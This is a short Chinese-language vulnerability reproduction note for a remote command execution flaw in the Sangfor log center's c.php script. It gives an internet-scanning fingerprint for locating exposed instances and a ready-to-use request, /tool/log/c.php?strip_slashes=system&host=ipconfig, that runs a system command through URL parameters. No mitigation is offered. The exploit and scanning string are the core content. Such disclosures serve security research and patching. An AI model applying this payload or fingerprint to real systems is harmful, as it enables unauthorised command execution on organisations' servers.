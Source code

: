 # 

# 深信服 日志中心 c.php 远程命令执行漏洞

## 漏洞描述

深信服 日志中心 c.php  远程命令执行漏洞，使用与EDR相同模板和部分文件导致命令执行

## 漏洞影响

```
深信服 日志中心
```

## 网络测绘

```
body="isHighPerformance : !!SFIsHighPerformance,"
```

## 漏洞复现

登录页面如下



![](./images/202202091915868.png)



访问漏洞Url



```plain
/tool/log/c.php?strip_slashes=system&host=ipconfig
```



![](./images/202202091915736.png)
